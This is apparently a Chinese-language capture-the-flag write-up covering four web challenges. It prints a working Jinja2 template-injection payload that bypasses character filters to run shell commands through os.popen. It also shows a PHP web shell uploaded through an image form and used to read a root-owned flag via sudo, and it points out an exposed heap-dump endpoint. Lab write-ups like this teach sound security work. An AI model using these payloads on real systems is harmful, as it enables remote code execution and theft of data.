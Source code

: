 ### SSTI2
`.`被過濾了，改成使用`|attr`
`{{config.__class__}}`改成`{{config|attr("__class__")}}`

`_` 也被過濾了，改成使用Hex Encoding`\x5f`
變成`{{config|attr("\x5f\x5fclass\x5f\x5f")}}`

`|attr('get')('os')`可以替代`['os']`，因為`[]`被過濾了

`|attr('popen')('ls')`取代`.popen('ls')`

`|attr('read')()`取代`.read()`

`{{config|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr('get')('os')|attr('popen')('ls')|attr('read')()}}`
最終可以執行任何指令的payload

### n0s4n1ty 1

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_cfb34110fa445286d6ed82f19000726f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949533&Signature=cNIsuJxiRLXi9wLd3n55dMRzBXc%3D)
此網站提供上傳圖片的功能，上傳圖片後抓包看看

直接改成php腳本測試
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_401eb2138eddad3b5d93288e2f456a31.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949538&Signature=t3tG0Svm6BM0zko%2Fjed7uV3r6vM%3D)


![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_4c8659bdabcbb8343cb462661a821268.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949543&Signature=wVY7BGzKyr4MLBDTU7%2FIXqWw9aQ%3D)
發現圖片被放在某個位置，直接去這個位置查看php腳本是否生效

`<?php system('ls')?>`找檔案

`可以使用sudo -l`來確認當前權限
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_91a1c09dd750413d1ba89ec9efabce6b.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949551&Signature=oLGq76o6Kcclg%2FJgYVaDS72UCvg%3D)
這段表示你會以www-data的身分登入，且不需使用密碼即可使用`sudo`指令

`<?php system('sudo cat /root/flag.txt')?>`取得flag

### head-dump
查看網頁源碼，發現有個api文件
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_a99d568f18a655145353af68c6f77c92.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949557&Signature=OXde3uGY7ee%2B%2F24XgLcJn4Dq9aU%3D)
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_fc9086150066bed9fc93fc1ce0a99ff3.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949562&Signature=aWGyjgSO8yWKYmB7jCHy9krV4fk%3D)
使用`/heapdump`可以獲得網頁的heap狀態快照

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_4c51c270bef6e9b4e4f9fa6b7963933c.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949579&Signature=3XFQMaZFKUOtqFOTkyEka4p9Ucw%3D)
> flag就藏在快照裡

### 3v@l
這題有一個輸入框可以用來計算，依題目的意思應該是使用`eval`
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_20dd7e4e4252256b40c9022892caa69e.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949585&Signature=bgqLAjw87r%2BQ4QcOLAO9GwlTolM%3D)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_a660015d43bba831f1f5fb22030e281a.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949593&Signature=0C2qCAnbleu4qwoi3nZXFTqxkHc%3D)
> 查看原始碼，發現有限制規定
